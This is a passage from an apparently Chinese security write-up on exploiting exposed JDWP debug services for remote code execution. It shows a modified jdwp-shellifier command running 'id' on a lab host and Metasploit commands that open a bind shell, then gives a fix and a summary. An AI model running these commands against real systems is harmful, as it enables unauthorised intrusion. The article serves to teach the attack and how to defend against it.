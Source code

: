 最后一步就是循环调用readLine方法，逐行读取命令执行的结果

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-4e2786bc1bfc2934a260fce7d2461494d47d8441.png)

注意这里调用方法返回的是String Object ID，还需要向被调试JVM端发送`(StringReference, Value)`命令来获取字符串内容

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-77ae841823079a64a599f5d3ebab06e1d1209df9.png)

改造完脚本，测试下利用脚本执行id命令

```shell
python2 jdwp-shellifier.py -t 192.168.182.130 -p 8000 --break-on "java.lang.String.indexOf" --cmd "id"
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-955ed9398e9bc2b0279f9fe8e0785f6a20762fca.png)

可以看到现在能正常回显命令执行的结果了

完整代码已上传至GitHub：<https://github.com/r3change/jdwp-shellifier>

### 利用MSF的漏洞利用模块

还可以使用Metasploit自带的漏洞利用模块`exploit/multi/misc/java_jdwp_debugger`进行漏洞利用

```shell
msf5 > use exploit/multi/misc/java_jdwp_debugger
msf5 exploit(multi/misc/java_jdwp_debugger) > set rhosts 192.168.182.129
msf5 exploit(multi/misc/java_jdwp_debugger) > set payload linux/x64/shell/bind_tcp 
msf5 exploit(multi/misc/java_jdwp_debugger) > run
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/02/attach-d915a808036fbec74ba63c339a0efa210c4f836a.png)

修复建议
----

关闭JDWP服务，或者JDWP服务监听的端口不对公网开放

0x4总结
=====

本文对JDWP协议的通信过程、数据包结构进行了分析，当目标开启了JDWP服务时，可以利用JDWP实现远程代码执行，本文介绍了三种漏洞利用方法。